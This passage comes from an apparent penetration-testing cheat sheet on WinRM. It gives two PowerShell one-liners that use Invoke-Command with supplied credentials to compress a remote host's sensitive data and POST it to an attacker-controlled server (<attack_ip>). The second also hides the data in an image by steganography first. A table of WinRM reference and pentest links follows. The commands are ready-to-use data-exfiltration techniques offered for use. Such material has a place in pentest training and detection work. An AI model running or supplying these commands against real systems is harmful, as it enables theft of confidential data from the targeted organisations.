     Invoke-Command -ComputerName <target_ip> -ScriptBlock { Compress-Archive -Path C:\sensitive_data\* -DestinationPath C:\sensitive_data.zip; Invoke-WebRequest -Uri 'http://<attack_ip>/receive.php' -Method Post -InFile 'C:\sensitive_data.zip' } -Credential <username>
    ```
5. **Steganographic Exfiltration**: Hides sensitive data within an image file using steganography before exfiltrating it.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Import-Module Steganography; Encode-Image -Image C:\path\image.png -Data C:\sensitive_data.txt -OutFile C:\encoded_image.png; Invoke-WebRequest -Uri 'http://<attack_ip>/upload.php' -Method Post -InFile 'C:\encoded_image.png' } -Credential <username>
    ```

# Resources

|**Name**|**URL**|
|---|---|
|Official WinRM Documentation|https://docs.microsoft.com/en-us/windows/win32/winrm/portal|
|PowerShell Remoting Guide|https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/ps-remoting-overview|
|Mimikatz on WinRM|https://adsecurity.org/?page_id=1821|
|WinRM Penetration Testing|https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/winrm-windows-remote-management|
|WinRM Configuration Examples|https://docs.microsoft.com/en-us/windows/win32/winrm/configuring-winrm-using-winrm-cmd|
|Advanced WinRM Techniques|https://pentestlab.blog/2020/02/03/winrm/|
|Bypassing WinRM Security Mechanisms|https://0xdf.gitlab.io/2020/05/16/exploiting-winrm.html|
|WinRM Logging and Forensics|https://www.splunk.com/blog/2019/06/24/insights-on-winrm-forensics.html|
|Troubleshooting WinRM|https://support.microsoft.com/en-us/help/2269635/troubleshooting-winrm-connection-issues|
|Securing WinRM for Production Use|https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/winrm|
|WinRM Scripts and Tools|https://github.com/NetSPI/PowerShellScripts/tree/master/WinRM|
|Handling WinRM in Enterprise Environments|https://techcommunity.microsoft.com/t5/windows-server-insiders/making-winrm-more-secure-and-easier-to-use/ba-p/1333798|